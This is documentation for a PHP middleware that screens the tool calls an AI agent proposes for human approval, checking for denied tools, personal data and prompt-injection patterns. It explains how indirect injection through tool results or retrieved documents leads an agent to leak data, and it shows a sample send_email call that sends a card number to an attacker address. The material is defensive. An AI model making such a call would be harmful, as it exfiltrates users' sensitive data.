

`ToolApprovalGuard` inspects the tool calls an agent proposes while pausing for human approval, before those calls are ever surfaced for review.

It can block, log, or fully delegate handling to a custom callback.

## Why this middleware exists

Every other Intercept middleware inspects what goes _out_: the prompt, and the text a human supplies when resolving a paused run.

None of them see what comes _back in_. Tool results, retrieved documents, and conversation history never pass through the middleware pipeline, which is exactly where indirect prompt injection lives.

When an agent is manipulated by content Intercept never saw, the damage almost always surfaces as a tool call:

```text
send_email(to: "attacker@example.com", body: "card 4111111111111111")
```

`ToolApprovalGuard` inspects those proposed calls. It is the first point downstream of that blind spot where the middleware pipeline can still act.

<Tip>
    This middleware only acts when a run pauses for approval. Agents whose tools
    are not approval-gated are unaffected, so adding it is safe even before you
    adopt human-in-the-loop.
</Tip>

## Installation

```bash
composer require promptphp/intercept-tool-approval-guard
```

The package depends on the [PII Redactor](/middleware/pii-redactor) and the [Injection Guard](/middleware/injection-guard) packages, because it reuses their detectors and patterns.

## Basic usage

```php
use Laravel\Ai\Contracts\Agent;
use Laravel\Ai\Contracts\HasMiddleware;
use PromptPHP\Intercept\ToolApprovalGuard\ToolApprovalGuard;

class SupportAgent implements Agent, HasMiddleware
{
    public function instructions(): string
    {
        return 'You help customers with support tickets.';
    }

    public function middleware(): array
    {
        return [
            new ToolApprovalGuard,
        ];
    }
}
```

## How it differs from the other middleware

This is the first Intercept middleware that acts on the **response** rather than the prompt, because the tool calls it guards are proposed by the model.



## What it checks

Three checks run over every proposed tool call.

### Tool policy

An empty `allowed_tools` list permits every tool. A non-empty list permits only the tools named in it. Anything in `denied_tools` is always refused.

```php
new ToolApprovalGuard(
    deniedTools: ['delete_record', 'transfer_funds'],
)
```

### Personal and secret-like data

Sensitive data in an outbound tool argument is an exfiltration signal. The middleware runs the same detectors as [PII Redactor](/middleware/pii-redactor), including the Luhn check on card numbers.

Entities listed in `block_entities` stop the run regardless of the configured action, matching PII Redactor's behaviour.

### Prompt injection patterns

A proposed argument that matches an injection pattern suggests the model was manipulated by content the middleware never saw. Uses the same patterns as [Injection Guard](/middleware/injection-guard).

Either scan can be turned off:

```php
new ToolApprovalGuard(
    scanPii: true,
    scanInjection: false,
)
```

## Supported actions

| Action  | Behaviour                                                        |
| ------- | ---------------------------------------------------------------- |
| `block` | Throws before the approval is surfaced for review.               |
| `log`   | Logs the finding and lets the pending approval reach the caller. |

There is deliberately no mutating action. A proposed tool call is part of the paused turn the provider recorded, so rewriting it would desynchronise the run when it is resumed — the same constraint that applies to resumed prompts.

<Tip>
    Start with `log` in production, review what real traffic produces, then move
    to `block`. The same rollout advice applies here as to the other middleware.
</Tip>

## Streaming

On a streamed run, the middleware cannot block. `$next()` returns before the model has proposed anything, and by the time the completion hook fires the caller has already received the streamed text.

The action therefore degrades to logging, recorded as `degraded_from`, matching the pattern used for tool approval resumes.

The security outcome still holds: the tool has **not** executed. Approval is a separate later call, so a logged-but-unblocked proposal still requires a human to act on it before anything happens.

## Blocked runs

The exception names the offending tool call and field, but never the matched value:

```text
Unsafe tool call proposed for approval [call_7: send_email.arguments.to].
```

Catch it like any other Intercept exception. See [handling blocked prompts](/guides/handling-blocked-prompts).

```php
use PromptPHP\Intercept\Support\Exceptions\InterceptException;

try {
    $response = $agent->prompt($message);
} catch (InterceptException $e) {
    return back()->withErrors('That request could not be completed.');
}
```

## Reading the logs

Findings are logged with a `source` of `pending_approvals`:

```php
[
    'source'   => 'pending_approvals',
    'findings' => [
        [
            'tool_call_id' => 'call_1',
            'tool'         => 'send_email',
            'type'         => 'pii',
            'field'        => 'arguments.message.body',
            'detail'       => 'email',
            'value_hash'   => '9f86d0818...',
        ],
    ],
]
```

Matched values are always recorded as SHA-256 hashes. Set `log_preview` to `true` to add a short cleartext preview, which is off by default because proposed arguments can carry sensitive data.

The `type` is one of `denied_tool`, `pii`, or `injection`. The `detail` carries the entity type or the matched pattern.

## Custom callback handling

A callback receives the prompt, the response, and the findings, and fully replaces the configured action:

```php
new ToolApprovalGuard(
    callback: function (AgentPrompt $prompt, $response, array $findings) {
        foreach ($findings as $finding) {
            SecurityAlert::dispatch($finding->reference(), $finding->type->value);
        }

        return $response;
    },
)
```

Each finding is an `ApprovalFinding` exposing `toolCallId`, `tool`, `type`, `field`, `detail`, and `value`. Use `reference()` for a string that names the location without leaking the matched value.

## Configuration

All options may be set globally in `config/intercept.php` under `tool_approval_guard`, or per agent through the constructor. Constructor values always win.

```php
'tool_approval_guard' => [
    'action'         => 'block',
    'allowed_tools'  => [],
    'denied_tools'   => [],
    'scan_pii'       => true,
    'scan_injection' => true,
    'log_preview'    => false,
],
```

See the [configuration guide](/configuration) for the full option list.

## Limitations

This middleware inspects the tool calls the model proposed. It does not inspect the tool results, retrieved documents, or conversation history that may have influenced them — those never reach the middleware pipeline.

It also does not validate arguments against the tool's schema, or re-scope owner keys such as `user_id` server-side. Do that in your own tool implementations.

Read the [security notes](/guides/security-notes) for the full picture of what Intercept can and cannot see.
